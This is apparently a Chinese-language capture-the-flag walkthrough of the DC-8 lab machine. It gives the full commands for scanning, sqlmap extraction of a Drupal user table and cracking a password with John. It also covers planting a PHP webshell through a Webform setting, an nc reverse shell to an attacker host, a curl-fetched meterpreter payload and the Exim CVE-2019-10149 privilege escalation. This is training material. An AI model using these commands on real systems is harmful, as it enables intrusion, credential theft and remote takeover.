主机发现

```
主机发现，禁用端口扫描
nmap -sn 192.168.159.1/24

ARP探测
nmap -PR 192.168.159.1/24

扫描开放端口
nmap -Pn 192.168.159.1/24
```





访问对应端口

目录扫描

```
python3 dirsearch.py -u http://192.168.159.133/ -e '*' -x 403,404 --random-agent
```



xray爬虫带扫

> xray使用
>
> [（2022最新）Xray、Rad两款工具的使用与联动_xray联动rad-CSDN博客](https://blog.csdn.net/qq1140037586/article/details/128316160)

```
xray_windows_amd64.exe webscan --browser-crawler http://192.168.159.133 --ho dc82.html
```



sqlmap跑一下

```
python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch --dbs

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db --tables

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db -T users --columns

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db -T users -C mail,name,pass --dump
```





john爆破一下密码

> john使用
>
> 1. --single 简单破解模式,也是默认的执行模式,就是根据用户和家目录名进行一些简单的变形猜解
> 2. --incremental 逐个遍历模式,其实跟hashcat的increment模式是一样的,直到尝试完所有可能的组合
> 3. --wordlist 纯字典模式,后面跟上字典的路径即可
> 4. --show 显示已经破解出来的hash及所对应的明文密码
> 5. --users 只破解指定用户的hash,可以是用户名或者对应的uid
> 6. --groups 只破解指定用户组的hash,可以是组名或者对应的gid
> 7. --shells 只破解指定shell的hash,可以用逗号分隔多个shell程序
> 8. --format 
>
> | 选 项                | 描 述                                                        |
> | -------------------- | ------------------------------------------------------------ |
> | –single              | single crack 模式，使用配置文件中的规则进行破解              |
> | –wordlist=FILE–stdin | 字典模式，从 FILE 或标准输入中读取词汇                       |
> | –rules               | 打开字典模式的词汇表切分规则                                 |
> | –incremental[=MODE]  | 使用增量模式                                                 |
> | –external=MODE       | 打开外部模式或单词过滤，使用 [List.External:MODE] 节中定义的外部函数 |
> | –stdout[=LENGTH]     | 不进行破解，仅仅把生成的、要测试是否为口令的词汇输出到标准输出上 |
> | –restore[=NAME]      | 恢复被中断的破解过程，从指定文件或默认为 $JOHN/john.rec 的文件中读取破解过程的状态信息 |
> | –session=NAME        | 将新的破解会话命名为 NAME ，该选项用于会话中断恢复和同时运行多个破解实例的情况 |
> | –status[=NAME]       | 显示会话状态                                                 |
> | –make-charset=FILE   | 生成一个字符集文件，覆盖 FILE 文件，用于增量模式             |
> | –show                | 显示已破解口令                                               |
> | –test                | 进行基准测试                                                 |
> | –users=[-]LOGIN      | UID[,…]                                                      |
> | –groups=[-]GID[,…]   | 对指定用户组的账户进行破解，减号表示反向操作，说明对列出组之外的账户进行破解。 |
> | –shells=[-]SHELL[,…] | 对使用指定 shell 的账户进行操作，减号表示反向操作            |
> | –salts=[-]COUNT      | 至少对 COUNT 口令加载加盐，减号表示反向操作                  |
> | –format=NAME         | 指定密文格式名称，为 DES/BSDI/MD5/BF/AFS/LM 之一             |
> | –save-memory=LEVEL   | 设置内存节省模式，当内存不多时选用这个选项。 LEVEL 取值在 1~3 之间 |

```
john dc8pass
```



用username-`john`password-`turtle`登陆成功

根据目录中的`/user/login`登录，然后找到webform，找到站点的edit，然后点击上面的form settings，切换到php code，然后写上一句话木马，下面**Redirection location**选择Confirmation page，然后保存



保存后去外面发一个邮件





然后用蚁剑连接，并且把Cookie带上



进环境测试有nc和curl，权限为www-data

> curl用法
>
> 



nc反弹shell

```
kali
nc -lvvp 5555 

client
nc -e /bin/bash 192.168.159.128 5555
```

msfvenom生成一个msf的马

```
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.159.128 LPORT=22333 -a x86 --platform Linux -f elf > shell.elf
```

Python开一个临时服务器用于传马

```
python3 -m http.server 60312
```

curl访问下载文件

```
curl http://192.168.159.128:60312/shell.elf -o shell.elf
```

msf设置监听模块

```
use exploit/multi/handler

set payloads linux/x86/meterpreter_reverse_tcp 

set lhost 192.168.159.128

set lport 22333


msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  22333            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

```

反弹回shell之后，权限为www-date

利用python打开一个正常的交互式shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

查找suid提权

```
find / -user root -perm -4000 -print 2>/dev/null


www-data@dc-8:/tmp$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount
```





```
searchsploit --id exim

searchsploit -p 46996 


┌──(root💀kali)-[/home/soyamilk]
└─# searchsploit --id exim
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                           |  EDB-ID
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Dovecot with Exim - 'sender_address' Remote Command Execution                                                                                                                            | 25297
Exim - 'GHOST' glibc gethostbyname Buffer Overflow (Metasploit)                                                                                                                          | 36421
Exim - 'perl_startup' Local Privilege Escalation (Metasploit)                                                                                                                            | 39702
Exim - 'sender_address' Remote Code Execution                                                                                                                                            | 25970
Exim 3.x - Format String                                                                                                                                                                 | 20900
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                                                                                                                            | 40054
Exim 4.41 - 'dns_build_reverse' Local Buffer Overflow                                                                                                                                    | 756
Exim 4.41 - 'dns_build_reverse' Local Read Emails                                                                                                                                        | 1009
Exim 4.42 - Local Privilege Escalation                                                                                                                                                   | 796
Exim 4.43 - 'auth_spa_server()' Remote                                                                                                                                                   | 812
Exim 4.63 - Remote Command Execution                                                                                                                                                     | 15725
Exim 4.84-3 - Local Privilege Escalation                                                                                                                                                 | 39535
Exim 4.87 - 4.91 - Local Privilege Escalation                                                                                                                                            | 46996
Exim 4.87 / 4.91 - Local Privilege Escalation (Metasploit)                                                                                                                               | 47307
Exim 4.87 < 4.91 - (Local / Remote) Command Execution                                                                                                                                    | 46974
Exim 4.89 - 'BDAT' Denial of Service                                                                                                                                                     | 43184
exim 4.90 - Remote Code Execution                                                                                                                                                        | 45671
Exim < 4.86.2 - Local Privilege Escalation                                                                                                                                               | 39549
Exim < 4.90.1 - 'base64d' Remote Code Execution                                                                                                                                          | 44571
Exim Buffer 1.6.2/1.6.51 - Local Overflow                                                                                                                                                | 20333
Exim ESMTP 4.80 - glibc gethostbyname Denial of Service                                                                                                                                  | 35951
Exim Internet Mailer 3.35/3.36/4.10 - Format String                                                                                                                                      | 22066
Exim Sender 3.35 - Verification Remote Stack Buffer Overrun                                                                                                                              | 24093
Exim4 < 4.69 - string_format Function Heap Buffer Overflow (Metasploit)                                                                                                                  | 16925
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                                                                                                 | 42221
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
                  
                  
┌──(root💀kali)-[/home/soyamilk]
└─# searchsploit -p 46996                                                                                                                                                                                              2 ⨯
  Exploit: Exim 4.87 - 4.91 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46996
     Path: /usr/share/exploitdb/exploits/linux/local/46996.sh
    Codes: CVE-2019-10149
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable

```

`searchsploit -x 46996`


```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh shell.sh
```

msf上传文件

```
upload /root/shell.sh ./
```


